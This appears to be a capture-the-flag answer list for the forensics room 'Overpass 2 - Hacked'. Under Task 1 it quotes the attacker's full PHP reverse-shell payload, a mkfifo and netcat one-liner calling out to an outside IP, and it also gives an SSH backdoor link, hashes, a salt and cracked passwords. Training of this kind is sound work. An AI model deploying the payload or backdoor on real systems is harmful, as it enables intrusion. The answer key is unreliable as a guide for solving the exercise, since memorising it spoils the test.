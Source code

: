 # Overpass 2 - Hacked

- [Overpass 2 - Hacked](#overpass-2---hacked)
  - [Overview](#overview)
  - [Answer List](#answer-list)
    - [Task 1](#task-1)
    - [Task 2](#task-2)
    - [Task 3](#task-3)
  - [Walkthrough](#walkthrough)
    - [Task 1](#task-1-1)
    - [Task 2](#task-2-1)
    - [Task 3](#task-3-1)
    - [Initial Access](#initial-access)
    - [Root Access](#root-access)
  - [Findings and Recommendations](#findings-and-recommendations)

## Overview
Answer list as well as the walkthrough for each question.

## Answer List
### Task 1
**Q1: What was the URL of the page they used to upload a reverse shell?**
> /development/

**Q2: What payload did the attacker use to gain access?**
> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

**Q3: What password did the attacker use to privesc?**
> whenevernoteartinstant

**Q4: How did the attacker establish persistence?**
> https://github.com/NinjaJc01/ssh-backdoor

**Q5: Using the fasttrack wordlist, how many of the system passwords were crackable?**
> 4

### Task 2
**Q1: What's the default hash for the backdoor?**
> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3

**Q2: What's the hardcoded salt for the backdoor?**
> 1c362db832f3f864c8c2fe05f2002a05

**Q3: What was the hash that the attacker used? - go back to the PCAP for this!**
> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

**Q4: Crack the hash using rockyou and a cracking tool of your choice. What's the password?**
> november16
